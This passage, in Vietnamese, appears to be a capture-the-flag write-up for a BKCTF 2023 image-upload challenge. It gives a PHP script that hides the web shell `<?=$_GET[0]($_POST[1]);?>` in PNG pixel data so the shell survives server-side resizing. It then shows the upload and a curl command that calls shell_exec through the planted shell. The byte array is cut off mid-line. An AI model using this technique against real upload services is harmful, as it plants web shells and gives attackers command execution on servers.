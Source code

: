 Script này sẽ tạo ra một hình ảnh 110x110 pixel sau đó nén thành 55x55 pixel với payload được sử dụng là `<?=$_GET[0]($_POST[1]);?>`

Mình sẽ đổi thành 80x80 pixel để khi nén sẽ thành 40x40 pixel phù hợp với điều kiện.

```php
<?php
 
header('Content-Type: image/png');
 
$p = array(0xA3, 0x9F, 0x67, 0xF7, 0x0E, 0x93, 0x1B, 0x23, 0xBE, 0x2C, 0x8A, 0xD0, 0x80, 0xF9, 0xE1, 0xAE, 0x22, 0xF6, 0xD9, 0x43, 0x5D, 0xFB, 0xAE, 0xCC, 0x5A, 0x01, 0xDC, 0xAA, 0x52, 0xD0, 0xB6, 0xEE, 0xBB, 0x3A, 0xCF, 0x93, 0xCE, 0>
 
$img = imagecreatetruecolor(80, 80);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3)*2, 0, $color);
imagesetpixel($img, round($y / 3)*2+1, 0, $color);
imagesetpixel($img, round($y / 3)*2, 1, $color);
imagesetpixel($img, round($y / 3)*2+1, 1, $color);
}
 
imagepng($img);
?>

```

Run script: 
```bash
┌──(taiwhis㉿kali)-[~/bkctf/bkctf2023-imagecopyresampled/exploit]
└─$ php gen_idat_png.php > text.php
```

Upload file `test.php` lấy đường dẫn file 

![](https://hackmd.io/_uploads/H1gk5h-T2.png)


Gọi shell:
```bash
curl -XPOST -d '1=ls /''http://localhost:1337/uploads/00f3e6fd392783b349714e3f860fde3b.php?0=shell_exec'
```

![](https://hackmd.io/_uploads/B1pE7bzan.png)


Và mình nhận được flag.

Tại thời điểm mình viết wu thì server không hoạt động nữa nên không có flag nhé :hamburger: 
